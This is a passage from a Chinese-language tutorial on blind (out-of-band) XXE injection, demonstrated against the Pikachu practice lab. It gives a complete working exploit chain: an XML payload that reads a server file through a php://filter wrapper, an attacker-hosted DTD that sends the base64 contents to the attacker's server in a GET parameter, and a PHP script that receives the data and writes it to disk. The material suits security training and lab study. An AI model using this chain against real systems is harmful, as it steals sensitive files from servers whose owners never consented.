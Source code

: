 第二步：访问远程的dtd文件，把PHP伪协议读取到的数据`%file`赋给`data`变量，并以GET方法提交给远程的攻击者服务器

第三步：我们只需要在自己的网站日志，或者写个php脚本接收上述`data`变量值，就能看到读取到的文件数据了。

#### 示例

在pikachu的XXE靶场中修改代码，使得该XXE无回显

修改源代码位置：`pikachu/vul/xxe/xxe_1.php`，在82行左右存在以下代码，注释掉`echo`等内容如下：

```
<?php //echo $html;?>
```

之后提交payload则前端不会有回显

##### 已知信息如下

目标服务器D盘下存在文件`test.txt`，内容为`I am a hacker`

攻击者IP为127.0.0.1，其www目录下存在文件`test.dtd`和`receive.php`

##### XXE的XML payload及作用

构造XXE漏洞的payload  

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
		<!ENTITY % dtd SYSTEM "http://127.0.0.1:80/test.dtd">
		%dtd;
		%send;
]>
```

1. 目标服务器XXE漏洞执行读取敏感文件后，将敏感文件内容保存到`%file`中

2. 目标服务器访问远程的攻击者服务器上的`dtd`文件，`%file`会赋值给一个PHP变量

##### 攻击者的test.dtd及作用

`test.dtd`内容如下：注意%号要进行实体编码成&#x25

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/receive.php?data=%file;'>">%payload;
```

该`dtd`文件将上述`%file`赋值给一个GET参数data，并将这个GET参数提交到远程攻击者服务器的`receive.php`文件处理

##### 攻击者的receive.php及作用

receive.php：

```php
<?php 
    $data = $_GET["data"]; 
    $myfile = fopen("data.txt", "w");
    fwrite($myfile, $data);
	fclose($myfile);
?>
```

